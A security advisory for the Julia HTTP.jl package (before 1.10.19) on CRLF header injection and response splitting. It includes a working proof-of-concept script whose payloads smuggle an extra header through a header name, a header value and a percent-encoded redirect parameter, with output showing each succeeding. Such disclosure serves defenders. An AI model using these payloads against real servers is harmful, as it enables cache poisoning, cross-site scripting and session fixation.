 ```toml
schema_version = "1.7.4"
id = "JLSEC-2025-40"
modified = 2025-10-31T18:41:21.318Z
published = 2025-10-14T04:37:19.606Z
aliases = ["GHSA-h3x8-ppwj-6vcj", "CVE-2025-61689"]

[[affected]]
pkg = "HTTP"
ranges = ["< 1.10.19"]

[[jlsec_sources]]
id = "GHSA-h3x8-ppwj-6vcj"
imported = 2025-10-14T02:22:26.408Z
modified = 2025-10-10T12:51:29.000Z
published = 2025-10-10T12:51:29.000Z
url = "https://api.github.com/repos/JuliaWeb/HTTP.jl/security-advisories/GHSA-h3x8-ppwj-6vcj"
html_url = "https://github.com/JuliaWeb/HTTP.jl/security/advisories/GHSA-h3x8-ppwj-6vcj"
```

# Header injection/Response splitting via header construction.

HTTP.jl did not validate header names/values for illegal characters, allowing CRLF-based header injection and response splitting.

```
using HTTP, Sockets

function handle_index(req::HTTP.Request)
    @show HTTP.header(req, "X-Foo")
    return HTTP.Response(200, "ok")
end

function handle_redirect(req::HTTP.Request)
    return HTTP.Response(301, ["Location" => get(HTTP.URIs.queryparams(req), "to", "/")], "redirect")
end

const router = HTTP.Router()
HTTP.register!(router, "GET", "/", handle_index)
HTTP.register!(router, "GET", "/redirect", handle_redirect)

server = HTTP.serve!(router, Sockets.IPv4(0,0,0,0), 8080)


println("[*] POC 1: Header injection in request through header key")
user_input = "X-Custom: x\r\nX-Foo: Bar\r\nX-Custom"
HTTP.get("http://localhost:8080/", [user_input => "hello"])

println()

println("[*] POC 2: Header injection in request through header value")
user_input = "hello\r\nX-Foo: Bar"
HTTP.get("http://localhost:8080/", ["X-Custom" => user_input])

println()

println("[*] POC 3: Header injection in response through header value")
res = HTTP.get("http://localhost:8080/redirect?to=/%0d%0aX-Foo:%20Bar", redirect=false)
@show HTTP.header(res, "X-Foo")

```

_Result_

```
[ Info: Listening on: [0.0.0.0:8080](http://0.0.0.0:8080/), thread id: 1
[*] POC 1: Header injection in request through header key
HTTP.header(req, "X-Foo") = "Bar"

[*] POC 2: Header injection in request through header value
HTTP.header(req, "X-Foo") = "Bar"

[*] POC 3: Header injection in response through header value
HTTP.header(res, "X-Foo") = "Bar"
```

### Impact

This enables HTTP response splitting and header injection, leading to cache poisoning, XSS, session fixation, and more.

### Patches

This issue is fixed in HTTP.jl  `v1.10.19`

### Credit

Chen T

